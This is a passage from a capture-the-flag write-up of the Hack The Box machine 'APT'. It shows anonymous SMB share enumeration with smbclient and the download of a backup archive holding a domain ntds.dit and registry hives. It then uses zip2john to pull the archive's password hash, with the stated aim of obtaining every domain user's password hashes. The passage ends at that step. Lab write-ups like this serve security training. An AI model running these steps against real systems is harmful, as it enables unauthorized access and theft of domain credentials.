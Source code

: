 ┌──\(zweilos㉿kali\)-\[~/htb/apt/enum4linux-ng\] └─$ smbclient -t 5 -W htb -U % -L //dead:beef::b885:d62a:d679:573f 127 ⨯

```text
    Sharename       Type      Comment
    ---------       ----      -------
    backup          Disk      
    IPC$            IPC       Remote IPC
    NETLOGON        Disk      Logon server share 
    SYSVOL          Disk      Logon server share 
```

dead:beef::b885:d62a:d679:573f is an IPv6 address -- no workgroup available

```text
Was able to enumerate shares using smbclient.  the backup share looked interesting
```

┌──\(zweilos㉿kali\)-\[~/htb/apt/enum4linux-ng\] └─$ smbclient -t 5 -W htb -U % //dead:beef::b885:d62a:d679:573f/backup 1 ⨯ Try "help" to get a list of possible commands. smb: &gt; dir . D 0 Thu Sep 24 03:30:52 2020 .. D 0 Thu Sep 24 03:30:52 2020 backup.zip A 10650961 Thu Sep 24 03:30:32 2020

```text
            10357247 blocks of size 4096. 6963935 blocks available
```

smb: &gt; get backup.zip getting file \backup.zip of size 10650961 as backup.zip \(5794.6 KiloBytes/sec\) \(average 5794.6 KiloBytes/sec\)

```text
Inside the `backup` share I found a backup.zip and extracted it to my computer
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ unzip backup.zip  
Archive: backup.zip creating: Active Directory/ \[backup.zip\] Active Directory/ntds.dit password: skipping: Active Directory/ntds.dit incorrect password skipping: Active Directory/ntds.jfm incorrect password creating: registry/ skipping: registry/SECURITY incorrect password skipping: registry/SYSTEM incorrect password

```text
The zip file was password-protected, but not encrypted.  This was a very juicy find, indeed.  If I could extract these files, I could potentially get the password hashes of all of the domain users on this machine
```

┌──\(zweilos㉿kali\)-\[~/htb/apt\] └─$ zip2john backup.zip &gt; backup.hash backup.zip/Active Directory/ is not encrypted! ver 2.0 backup.zip/Active Directory/ is not encrypted, or stored with non-handled compression type ver 2.0 backup.zip/Active Directory/ntds.dit PKZIP Encr: cmplen=8483543, decmplen=50331648, crc=ACD0B2FB ver 2.0 backup.zip/Active Directory/ntds.jfm PKZIP Encr: cmplen=342, decmplen=16384, crc=2A393785 ver 2.0 backup.zip/registry/ is not encrypted, or stored with non-handled compression type ver 2.0 backup.zip/registry/SECURITY PKZIP Encr: cmplen=8522, decmplen=262144, crc=9BEBC2C3 ver 2.0 backup.zip/registry/SYSTEM PKZIP Encr: cmplen=2157644, decmplen=12582912, crc=65D9BFCD NOTE: It is assumed that all files in each archive have the same password. If that is not the case, the hash may be uncrackable. To avoid this, use option -o to pick a file at a time.

```text
next I used `zip2john` to extract the password hash
```
